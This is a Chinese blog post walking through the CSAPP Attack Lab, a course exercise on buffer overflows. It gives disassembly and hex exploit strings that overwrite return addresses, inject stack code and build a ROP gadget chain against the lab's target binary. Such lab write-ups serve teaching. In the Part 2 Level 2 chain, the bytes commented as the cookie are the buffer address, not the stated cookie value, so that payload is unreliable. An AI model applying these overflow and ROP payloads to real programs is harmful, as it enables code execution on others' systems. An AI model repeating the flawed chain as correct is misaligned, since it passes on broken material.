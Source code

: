 ```yaml
---
layout: post
title: "「CSAPP Lab」缓冲区溢出实验"
subtitle: "Attack Lab"
date: 2019-1-23
author: "ZingLix"
header-img: "img/post-36.jpg"
catalog: true
tags:
  - CSAPP-LAB
---
```


> Lab Version: 1/11/16
> Cookie: 0x59b997fa

## 缓冲区溢出

缓冲区溢出是指类似于 `scanf` 的函数，输入到一个字符数组中并不会检查溢出，所以用户输入的代码会影响到字符数组以外的内存空间，溢出的那部分可能就会产生一些意想不到的结果。这个实验就是展现缓冲区溢出的结果。

## Part 1

如下是每次都会运行的函数，其中 `getbuf()` 是一个存在缓冲区溢出漏洞的函数，实验目标就是修改程序运行行为。

```
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

### Level 1

这个 Level 要求让程序运行 `getbuf` 后不返回至 `test()` 而是转而运行另一函数 `touch1()`。

先对这几个函数反汇编进行观察。

```
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
End of assembler dump.
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

从中可以看到 `getbuf` 申请了 0x28 个字节的栈空间，那么从第 0x29 个字节开始就是返回地址。而我们输入四十个字符以后就会溢出，影响到返回地址的内容。所以我们只要输入的第 41 个字节开始是 `touch1` 的地址就可以让它返回时获得另一个函数的地址，从而跳转到我们所攻击的函数，从上面可以看到是 `0x4017c0`。

所以答案如下，前 40 个随意构造。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
C0 17 40
```

![](/img/in-post/CSAPP-Lab/3-1.png)

### Level 2

这回要做的是让程序能够执行 `touch2()` 并且还能够将 cookie 作为参数传递给它。

我们能够输入代码的地方就是缓冲区内的一部分，所以思路就是让 getbuf 返回时返回到我们输入的代码地址处，即缓冲区位置，代码负责准备参数然后返回到 `touch2()` 处。

```
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
=> 0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
(gdb) print (void *)$rsp
$3 = (void *) 0x5561dc78
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   ...
```

得到了缓冲区的位置 `0x5561dc78` 和 `touch2()` 的开始位置 `0x4017ec`，并且参数用 edi 传入。所以我们要注入的代码是

```
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi ;cookie值
   7:   68 ec 17 40 00          pushq  $0x4017ec        ;返回地址
   c:   c3                      retq
```

转换成二进制就得到了答案

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```

![](/img/in-post/CSAPP-Lab/3-2.png)

### Level 3

这一关的要求与上关类似，只是要求传递参数变为字符串。通过反汇编 `touch3` 可以看到参数依旧由 rdi 传递，所以思路就是手动先将 cookie 转成字符串放入我们输入的代码，然后计算出其地址，传入 rdi，之后与 Level 2 类似，通过压栈改变返回地址从而执行 `touch3`。

答案如下，其中最后一行即为 cookie 值的字符串形式。

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

![](/img/in-post/CSAPP-Lab/3-3.png)

## Part 2

第二部分比起第一部分采用了栈随机化等手段不再能执行栈上代码，所以之前的方法都会失效，但是溢出仍会导致问题。

```
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```

以这样一段代码为例，如果从每句代码中间开始运行，比如跳转到中间那么下一句会是 `48 89 c7`，这段代码意味着 `movq %rax, %rdi`。这部分代码存在于代码段所以一定能正常运行，所以通过改变返回地址到代码段中精心挑选的地方就仍能运行我们的攻击代码。

### Level 2

与上一部分的 Level 2 的目标一样，题目中给到我们的可用指令中能修改寄存器的只有 `movq` 和 `popq`，且只用两句。通过直接修改返回地址就可以跳转到 `touch2`，所以这两句目标是将返回值放入 rdi。然后我们能够修改的是栈段内容，所以思路很清楚，先 pop 到某一寄存器再 mov 到 rdi。

```
00000000004019a7 <addval_219>:
  4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:   c3

00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3
```

符合条件的是这样两个函数，`58 90 c3` 完成了 `popq %rax`，`48 89 c7 (90) c3` 完成了 `movq %rax, %rdi`。攻击代码也就显而易见了。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00   //返回至 popq 处
78 dc 61 55 00 00 00 00   //cookie 进栈等待 pop
c5 19 40 00 00 00 00 00   //返回至 movq 处
ec 17 40 00 00 00 00 00   //返回至 touch2 处
```

![](/img/in-post/CSAPP-Lab/3-4.png)

### Level 3

和上一部分的 Level 3 一样的要求，但是在指导中居然疯狂劝退。。。

说实话，这一部分真的恶心，还得自己去找对应的二进制，用好多个构造出一个目标代码，但是前面实验已经相当清晰的展现了整个缓冲区溢出攻击的过程，最后这个。。。看上去就很不是很想做了，感觉的确花的时间也并不能学到太多东西，所以接受劝退，等以后哪天兴起再填坑吧 :smirk:

